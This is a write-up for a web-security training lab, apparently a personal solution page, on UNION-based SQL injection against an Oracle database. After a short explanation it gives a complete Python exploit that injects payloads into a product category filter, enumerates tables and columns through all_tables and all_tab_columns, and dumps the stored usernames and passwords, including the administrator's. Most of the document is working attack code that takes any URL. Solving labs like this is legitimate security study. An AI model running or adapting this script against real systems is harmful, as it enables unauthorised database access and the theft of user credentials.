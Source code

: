 ```yaml
---
title: 'SQLi Lab 6'
description: 'SQL injection for metadata enumeration and admin credential extraction on Oracle databases'
---
```



## SQL injection attack, listing the database contents on Oracle

<div style="text-align: justify;">
  This lab demonstrates how SQL injection (SQLi) on an Oracle database can be used to enumerate metadata and extract user credentials. The vulnerable product category filter returns query results in the application's response, allowing a `UNION SELECT` attack to pull data from system metadata tables such as `all_tables` and `all_tab_columns`. Because Oracle requires a `FROM` clause for every `SELECT`, the built-in `dual` table is useful when selecting constant values during enumeration.

  By determining the number of columns and which columns hold text, I enumerated table names, discovered the user table, retrieved column names for username and password fields, and finally dumped user credentials — including the administrator account needed to complete the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- First confirm the number of columns and which return text (e.g. `'+UNION+SELECT+'abc','def'+FROM+dual--`).
- Use `all_tables` to list table names (Oracle-specific system view).
- Use `all_tab_columns` to enumerate column names for the discovered user table.
- Identify the username and password column names.
- Perform a final `UNION SELECT` to dump usernames and passwords from the discovered table (remember Oracle requires `FROM <table>`; use `dual` when selecting constants).
- Locate the administrator row and use the recovered password to log in.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp proxy settings
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Verifies that Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.RequestException:
        print("[-] Burp Suite proxy is not reachable. Please start Burp.")
        sys.exit(1)

def get_users_table_name(url):
    """
    Extracts the users table name by querying the 'all_tables' in Oracle.
    """
    print("[*] Trying to extract users table name...")
    payload = "' UNION SELECT table_name, NULL FROM all_tables --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while fetching table names: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.lower().startswith("users"):
            print(f"[+] Found users table: {th.text}")
            return th.text

    print("[-] Users table not found.")
    sys.exit(1)

def get_column_names(url, table_name):
    """
    Extracts username and password column names from the given table in Oracle.
    """
    print(f"[*] Extracting columns from table: {table_name}")
    payload = f"' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='{table_name}' --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while fetching columns: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    username_col = password_col = None

    for th in soup.find_all('th'):
        if th.text.lower().startswith("username"):
            username_col = th.text
        if th.text.lower().startswith("password"):
            password_col = th.text

    if username_col and password_col:
        print(f"[+] Found username column: {username_col}")
        print(f"[+] Found password column: {password_col}")
        return username_col, password_col

    print("[-] Required columns not found.")
    sys.exit(1)

def get_admin_credentials(url, table_name, username_col, password_col):
    """
    Extracts administrator credentials from the table using the discovered columns in Oracle.
    """
    print("[*] Extracting administrator credentials...")
    payload = f"' UNION SELECT {username_col}, {password_col} FROM {table_name} --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while retrieving credentials: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    admin_entry = soup.find('th', string='administrator')

    if admin_entry:
        username = admin_entry.text.strip()
        password = admin_entry.find_next_sibling('td').text.strip()
        print(f"[+] Administrator credentials found!")
        print(f"    Username: {username}")
        print(f"    Password: {password}")
    else:
        print("[-] Administrator credentials not found in the response.")

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    check_burp()
    users_table = get_users_table_name(url)
    username_col, password_col = get_column_names(url, users_table)
    get_admin_credentials(url, users_table, username_col, password_col)

if __name__ == "__main__":
    main()
```
